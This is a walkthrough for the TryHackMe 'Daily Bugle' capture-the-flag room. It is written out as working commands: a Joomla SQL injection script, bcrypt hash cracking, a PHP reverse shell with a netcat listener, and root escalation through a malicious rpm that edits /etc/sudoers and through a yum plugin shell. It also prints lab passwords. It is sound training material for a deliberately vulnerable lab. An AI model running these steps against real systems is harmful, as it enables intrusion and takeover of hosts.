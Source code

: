 # Daily Bugle

**Room Link:** [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)



### **Deploy**

**Access the web server, who robbed the bank?**

<figure><img src="../../.gitbook/assets/image (4) (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Shell

```
nmap -A 10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (18) (2) (1).png" alt=""><figcaption></figcaption></figure>



**Python Script**

```
git clone https://github.com/stefanlucas/Exploit-Joomla.git 
cd Exploit-Joomla/ 
python3 joomblah.py http://10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (36) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```

### Cracking the hash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

<figure><img src="../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

We can  now login to Joomla with the credentials we have found

```
Username: jonah
Password: spiderman123
```

<figure><img src="../../.gitbook/assets/image (40) (1).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell

All I did was follow this tutorial to get a reverse shell.&#x20;

**Tutorial:** [https://www.hackingarticles.in/joomla-reverse-shell/](https://www.hackingarticles.in/joomla-reverse-shell/)

**Kali**

```
nc -lvp 1234
```

**Browser**

<figure><img src="../../.gitbook/assets/image (22) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (4) (1).png" alt=""><figcaption></figcaption></figure>

Used this PHP reverse shell, just needed to change the IP to my own.

**PHP Reverse Shell:** [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (2) (2).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation&#x20;

#### **Option #1 - Create malicious rpm file**

Found a password in the configuration file. The password worked for the user jjameson which was found in the home directory.

<figure><img src="../../.gitbook/assets/image (6) (1) (3).png" alt=""><figcaption></figcaption></figure>

```
ssh jjameson@10.10.116.159
Password: nv5uz9r3ZEDzVjNu
```



jjamerson is able to run yum with no password as sudo

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**&#x20;

```
echo 'echo "jjameson ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > hack.sh 
git clone https://github.com/jordansissel/fpm.git 
cd fpm/bin/ 
./fpm -n root -s dir -t rpm -a all --before-install /root/hack.sh . 
python2 -m SimpleHTTPServer 81
```

Our fpm file is now created&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
cd /tmp/ 
wget http://10.10.160.125:81/root-1.0-1.noarch.rpm 
sudo yum localinstall root-1.0-1.noarch.rpm 
sudo -i
```

<figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

#### **Option #2 -** Spawn interactive root shell by loading a custom plugin

**Exploit Link:** [https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/)

Just had to copy paste from gtfobins and it worked right away

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

<figure><img src="../../.gitbook/assets/image (1) (2) (3).png" alt=""><figcaption></figcaption></figure>

